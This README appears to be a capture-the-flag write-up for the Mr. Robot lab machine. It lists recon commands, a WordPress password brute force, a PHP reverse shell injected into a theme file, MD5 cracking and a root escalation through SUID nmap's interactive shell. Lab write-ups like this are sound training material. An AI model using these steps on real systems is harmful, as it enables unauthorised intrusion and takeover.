

# Mr. Robot — Full Penetration Testing Report

[📖 قراءة التقرير بالعربية](README_AR.md) | [English Version](README.md)
[📄 Original Report File (DOCX)](./Mr_Robot_Full_PenTest_Report.docx)

---

## 📋 Overview & Metadata

| Attribute | Details |
| :--- | :--- |
| **Target Machine** | Mr. Robot VM (VulnHub / TryHackMe) |
| **Target IP** | `10.10.10.132` |
| **Attacker IP** | `10.10.10.128` |
| **Target OS** | Linux |
| **Difficulty** | Intermediate |
| **Objectives** | Full System Compromise & Recovering 3 Secret Keys (Flags) |
| **Core Vectors** | `robots.txt` Recon, WordPress Credential Brute-Force, PHP Theme Shell, MD5 Hash Cracking, SUID Nmap Escalation |

---

## 🎯 Attack Chain



---

## 🛠️ Step-by-Step Walkthrough

### Phase 1: Reconnaissance & Key 1 Discovery

```bash
nmap -sV -sC -p- 10.10.10.132
```
Ports open: `80/tcp` and `443/tcp`.

Navigate to `http://10.10.10.132/robots.txt`:
```text
User-agent: *
fsocity.dic
key-1-of-3.txt
```
1. Access `http://10.10.10.132/key-1-of-3.txt` to capture **Key 1**.
2. Download `http://10.10.10.132/fsocity.dic`, a wordlist containing over 850,000 words. De-duplicate:
   ```bash
   sort -u fsocity.dic > clean_dict.txt
   ```

### Phase 2: WordPress Exploitation & Key 2

1. WordPress login is at `http://10.10.10.132/wp-login.php`.
2. WordPress gives descriptive error messages ("The password you entered for the username **elliot** is incorrect").
3. Brute force password for user `elliot` using `clean_dict.txt` via Hydra / WPScan.
4. Log into WordPress -> **Appearance > Editor > 404.php**. Inject a PHP reverse shell.
5. Trigger `404.php` to obtain a shell as user `daemon`.
6. Navigate to `/home/robot`:
   ```bash
   ls -la /home/robot
   ```
   Files found: `key-2-of-3.txt` (readable only by user robot) and `password.raw-md5`.
7. Crack MD5 hash:
   `robot:c3fcd3d76192e4007dfb496cca67e13b` -> `abcdefghijklmnopqrstuvwxyz`.
8. Switch user:
   ```bash
   su - robot
   cat key-2-of-3.txt
   ```
   **Key 2 captured!**

### Phase 3: Privilege Escalation to Root & Key 3

Search for SUID binaries:
```bash
find / -perm -u=s -type f 2>/dev/null
```
Result reveals an older version of Nmap with SUID enabled:
`/usr/local/bin/nmap`

Nmap versions between 2.02 and 5.21 feature an interactive shell mode (`--interactive`):
```bash
/usr/local/bin/nmap --interactive
nmap> !sh
whoami
root
```
Retrieve the final flag:
```bash
cat /root/key-3-of-3.txt
```
All 3 keys captured and root compromise verified!
